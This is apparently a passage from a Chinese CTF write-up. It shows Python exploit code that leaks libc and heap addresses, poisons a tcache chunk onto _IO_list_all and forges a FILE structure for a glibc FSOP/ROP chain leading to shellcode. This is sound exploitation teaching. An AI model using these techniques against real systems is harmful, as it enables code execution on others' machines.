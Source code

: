 ```
add(1,0x300)
for i in range(2,7):
    add(i,0x300)
add(13,0x300)
add(14,0x300)
show(1)
io.recvuntil(b"Data: ")
base=u64(io.recv(6).ljust(8,b'\x00'))-0x203b20
print(f"base=>{hex(base)}")
add(15,0x300)
free(15)
show(1)
io.recvuntil(b"Data: ")
heap=((u64(io.recv(6).ljust(8,b'\x00'))&0xffffffffff)<<12)-0x3000
print(f"heap=>{hex(heap)}")
```

然后就是堆块重叠下攻击\_IO_list_all,同时伪造 IO 结构体,将伪造 IO 接到\_IO_list_all 上

由于本题要使用 openat2,openat2 的参数包含结构体,写 rop 我感觉有点麻烦,所以写的 shellcode

大体上还是 orw :)

```
add(15,0x300)
#=============================================================================================
chunk=0x3010+heap
key=chunk>>12
#-------------------------------
_IO_list_all=base+libc.sym._IO_list_all
_IO_wfile_jumps=base+libc.sym._IO_wfile_jumps
magic=base+0x17923D
print(hex(_IO_list_all))
print(hex(magic))
swapcontext=base+0x5815D
rdi=base+0x000000000010f75b
rsi=base+0x000000000002b46b
#0x00000000000b0131 : mov eax, esp ; mov rdx, rbx ; pop rbx ; pop r12 ; pop rbp ; ret
#0x00000000000b00d7 : mov rdx, r13 ; pop rbx ; pop r12 ; pop r13 ; pop rbp ; ret
r13=base+0x00000000000584d9
rdx=base+0x00000000000b00d7
mprotect=base+libc.sym.mprotect
#-------------------------------
free(2)
free(15)
edit(1,p64((_IO_list_all)^key))
chunk2=heap+0x3940
fake=flat({
    0x00:{
        0x28:p64(1),
        0x48:p64(chunk2),
        0x88:p64(heap+0x4000),
        0xa0:p64(chunk+0x100),
        0xd8:p64(_IO_wfile_jumps)
        },
    0x100:{
        0xe0:p64(chunk+0x200)
        },
    0x200:{
        0x68:p64(magic)
        }
    },filler=b'\x00')
add(2,0x300,fake)
add(15,0x300,p64(chunk))
#=========================================================
```